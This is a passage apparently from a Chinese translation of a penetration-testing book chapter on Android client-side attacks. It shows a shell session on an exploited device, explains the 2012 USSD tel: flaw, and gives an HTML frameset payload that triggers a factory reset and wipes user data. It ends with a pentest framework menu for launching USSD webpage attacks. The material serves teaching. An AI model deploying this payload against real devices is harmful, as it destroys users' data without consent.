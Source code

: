 示例 20-9. Android shell

```
Connected: Try exit to quit
uid=10002(app_2) gid=10002(app_2) groups=1015(sdcard_rw),3003(inet)
**/system/bin/ls**
sqlite_stmt_journals
--*snip*--
**exit**
```

### 注意

Android 是一个分支的 Linux 内核，因此一旦我们获得了 shell，我们应该可以开始使用 Android，对吧？不幸的是，许多 Linux 工具如 `cp` 并不在其中。此外，用户结构也略有不同，每个应用都有自己的 UID。然而，深入了解 Android 超出了本章的范围。

我们将在本章稍后探讨另一种控制被利用的 Android 设备的方法，使用植入后门的应用调用 Android API。但首先，让我们来看一下另一种客户端攻击。

### USSD 远程控制

*无结构补充服务数据（USSD）* 是一种移动设备与移动网络通信的方式。当你拨打特定的号码时，设备将执行特定的功能。

2012 年底，有报道称一些 Android 设备会自动在拨号器应用中打开它们在网页上发现的号码。当在拨号器中输入 USSD 代码时，相应功能会自动被调用。这听起来像是一个攻击者可以滥用的好功能，用来远程控制设备。

事实证明，攻击者可以将 USSD 代码放在网页中作为要拨打的号码，最终迫使这些易受攻击的设备执行各种有趣的操作。例如，如此处所示，恶意网页中的 `tel:` 标签告诉 Android 这是一个电话号码。但当 USSD 代码 `2673855%23` 在拨号器中打开时，设备会执行恢复出厂设置，删除所有用户数据。

```
<html>
<frameset>
<frame src="tel:*2767*3855%23" />
</frameset>
</html>
```

### 注意

漏洞并不在 USSD 代码本身，而是在某些设备实现 `tel:` 标签的方式上。各种 USSD 标签提供了各种功能。

我们的示例将使用比之前描述的更无害的有效载荷。我们将使设备自动拨打一个代码，以在弹出窗口中显示其唯一标识符，如示例 20-10 所示。

示例 20-10. Android USSD 攻击

```
spf> **6**
Choose a social engineering or client side attack to launch:
    1.) Direct Download Agent
    2.) Client Side Shell
    3.) USSD Webpage Attack (Safe)
    4 ) USSD Webpage Attack (Malicious)
spf> **3**❶
Hosting Path: **/spfbook2**
Filename: **/book2.html**
Phone Number to Attack: **15555215558**
```
